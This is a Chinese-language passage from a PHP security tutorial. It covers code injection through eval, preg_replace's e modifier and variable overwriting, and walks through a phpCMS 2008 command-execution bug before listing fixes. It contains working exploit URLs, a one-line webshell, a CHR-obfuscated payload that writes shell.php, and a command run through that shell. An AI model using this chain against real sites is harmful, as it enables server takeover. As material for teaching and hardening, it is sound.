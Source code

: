 第一个就是刚才之前说phpcms 的，通常$data不会直接来自POST或GET变量（要不也太水了），但通过一些二次漏洞很可能能够造出代码执行（如SQL注入）。 第二个是将$data使用一个函数（deal）处理后再赋值给$ret。那么，传参的方式就很重要了。第二个用的是单引号传参，那么我们只能先闭合单引号，之后才能注入代码。如果应用全局做了addslashes或GPC=on的话，就不能够注入代码了。 第三个与第二个类似，但使用的是双引号传参。双引号在代码中有个很重要的特性，它能解析其中的函数，如我们传入`${phpinfo()}`，phpinfo将会被执行，而得到的返回值作为参数传入deal 函数。这个时候，我们就不用考虑闭合引号的事了。 第四个是preg_replace函数的误用，这种用法出现的情况是最多的，也是因为preg_replace第二个参数中，包裹正则结果\\\\1的是双引号，通过第三个中的方式，也能执行任意代码。  
注意，第五个示例中包裹\\\\1 的可以是双引号或者单引号，都可以造成命令执行，提交 `h=[php]phpinfo()[/php]` 。  

  
php curly syntax： ${&#96;ls&#96;}  它将执行花括号内的代码，并将结果替换回去。
  

  
## 2、phpCMS 2008 命令执行漏洞
  
`index.php?userid=abc&menu=xxx`
  
我们访问时填的 userid 在数据库是查找不到的，这样无法从数据库返回结果中 extract 出 $menu 变量的定义，在但最开始 程序会把 $_GET 获取到的参数都 extract 出来，这样的话 menu 变量的值可以由我们控制，
  
由于 $menu 不为空，如果 `menu=phpinfo(); exit();`   内部执行 string2array 函数，
  
`eval("\$arr=$data");` 时会 执行命令，即 `eval("\$arr=phpinfo();exit();");`
  
进一步地，我们可以将一句话木马写成 webshell 文件放到网站服务器目录下
  
一句话木马  `<?php eval($_GET['func']($_GET['cmd'])); ?>`
  
`menu=file_put_contents('shell.php', ' <?php eval($_GET['func']($_GET['cmd'])); ?> ')`
  
为了防止转义等导致命令执行不成功，可以用 ascii 码形式，即
  
`index.php?userid=abc&menu=file_put_contents(CHR(115).CHR(104).CHR(101).CHR(108).CHR(108).CHR(42).CHR(112).CHR(104).CHR(112), ...);exit()`
  
下次我们可以直接访问 `shell.php?func=system&cmd=dir`，执行php 代码 `system(dir)`。
  

  
类似会造成变量覆盖的函数还有：import_request_variables(),  parse_str() 等
  

  

  
## 3、修复方案：
  
* 能使用json 保存数组、对象就使用json，不要将php对象保存成字符串，否则读取的时候需要使用eval。将字符串转化为对象的过程其实是将数据转化为代码的过程，这个过程很容易出现漏洞，像php的unserialize 导致代码执行、struts2的ognl 命令执行等漏洞都是这个过程导致的。
  
* 对于必须使用eval 的情况，一定要保证用户不能轻易接触eval 的参数（或用正则严格判断输入的数据格式）。对于字符串，一定要使用单引号包裹可控代码，并再插入前进行addslashes，这样就无法闭合单引号，又因为不是双引号包裹，故不能执行 ${} 。  
`evil('${phpinfo()}')`、`evil("phpinfo()")`  等都不会执行， `evil("${phpinfo()}")`、`evil(phpinfo())`、`evil(${@phpinfo()})` 都可以执行，因为双引号里面内容会被当作变量解析一次，函数前加 @ 表示执行函数时不报错。  
`$data = addslashes($data);eval("\$data = deal('$data');");`  
  
* 放弃使用preg_replace 的e修饰符，而换用 preg_replace_callback 替代。如果非要使用preg_replace的e模式的话，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹（第4个示例）。
  
* 确保register_globals = off, 若不能自定义php.ini，则应该在代码中控制；其次，熟悉可能造成变量覆盖的函数和方法，检查用户是否能控制变量的来源；最后，养成初始化变量的好习惯。
  
* 能够往本地写入的函数都需要重点关注，如 file_put_contents(), fwrite(), fputs() 等。
  
* 在自动化漏洞检测中可以 直接带入类似 `";print(md5(test));$a="` ，匹配返回页面是否有 md5 字符串。
  

  

  
